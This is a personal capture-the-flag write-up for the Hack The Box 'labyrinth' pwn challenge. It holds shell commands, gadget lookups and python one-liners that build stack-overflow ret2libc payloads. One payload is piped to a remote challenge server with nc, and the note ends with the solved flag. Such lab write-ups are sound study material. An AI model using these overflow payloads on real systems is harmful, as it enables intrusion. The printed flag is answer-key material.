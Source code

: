 # labyrinth

**SOLVED** - Note: I think I got this by accident (review this: https://github.com/Mymaqn/HTBCA2023_Pwn_Writeups/tree/master/labyrinth)

```sh
strings labrynth

/opt/ghidra_10.1.5_PUBLIC/ghidraRun &
```

https://ir0nstone.gitbook.io/notes/types/stack/return-oriented-programming/ret2libc

```sh
# disable ASLR
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space

# find libc and base
ldd labrynth

# linux-vdso.so.1 (0x00007ffff7fc1000)
#         libc.so.6 => ./glibc/libc.so.6 (0x00007ffff7c00000)
#         ./glibc/ld-linux-x86-64.so.2 => /lib64/ld-linux-x86-64.so.2 (0x00007ffff7fc3000)

# find libc system
readelf -s ./glibc/libc.so.6 | grep system
# -s symbols

# 1481: 0000000000050d60    45 FUNC    WEAK   DEFAULT   15 system@@GLIBC_2.2.5

# find /bin/sh
strings -a -t x ./glibc/libc.so.6 | grep /bin/sh
# -a entire file, -t x outputs offset in hex

# 1d8698 /bin/sh

ROPgadget --binary labyrinth | grep rdi
# 0x000000000040166b : pop rdi ; ret
```

need to get here -> 0x004012c1  (escape_plan)

```sh
r <<< $(echo "069"; python3 -c "import sys; sys.stdout.buffer.write(b'A'*48 + b'\xd8\xe3\xff\xff\xff\x7f\x00\x00' + b'\xb0\x12\x40\x00\x00\x00\x00\x00')") 
```

```sh
# re-enable ASLR
echo 2 | sudo tee /proc/sys/kernel/randomize_va_space

# disable again
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space

 (echo "069"; python3 -c "import sys; sys.stdout.buffer.write(b'A'*48 + b'\xd8\xe3\xff\xff\xff\x7f\x00\x00' + b'\xb0\x12\x40\x00\x00\x00\x00\x00')") | ./labyrinth 
```

```sh
(echo "069"; python3 -c "import sys; sys.stdout.buffer.write(b'A'*48 + b'\xd8\xe3\xff\xff\xff\x7f\x00\x00' + b'\xb0\x12\x40\x00\x00\x00\x00\x00')") | nc 161.35.168.118 32643
```

must not be working remotely because of ASLR

```sh
pwndbg> checksec
# [*] '/home/barrett/repos/ctf/cyber-apocalypse-2023/pwn/labryinth/labyrinth'
#     Arch:     amd64-64-little
#     RELRO:    Full RELRO
#     Stack:    No canary found
#     NX:       NX enabled
#     PIE:      No PIE (0x400000)
#     RUNPATH:  b'./glibc/'

# https://ir0nstone.gitbook.io/notes/types/stack/relro
# relro moves the libc GOT pointers we need, every application start, to a different address.

# https://stacklikemind.io/ret2libc-aslr

readelf --relocs labyrinth
# 000000403f78  000300000007 R_X86_64_JUMP_SLO 0000000000000000 puts@GLIBC_2.2.5 + 0

readelf labyrinth
# entry 0x401140

ROPgadget --binary labyrinth | grep rdi
# 0x000000000040166b : pop rdi ; ret

# gdb
# pattern create 200
```

https://ir0nstone.gitbook.io/notes/types/stack/aslr/ret2plt-aslr-bypass
https://infosecwriteups.com/ret2libc-attack-in-lin-3dfc827c90c3

Door: AAAA/bin/sh

```c
fgets((char *)&local_38,0x44,stdin);
// 68 bytes
```

```sh
(echo "069"; \
python3 -c "import sys; sys.stdout.buffer.write(b'A'*55)") \
| ./labyrinth 
```

honestly not sure why this worked - `python3 flag.py`

`HTB{3sc4p3_fr0m_4b0v3}`
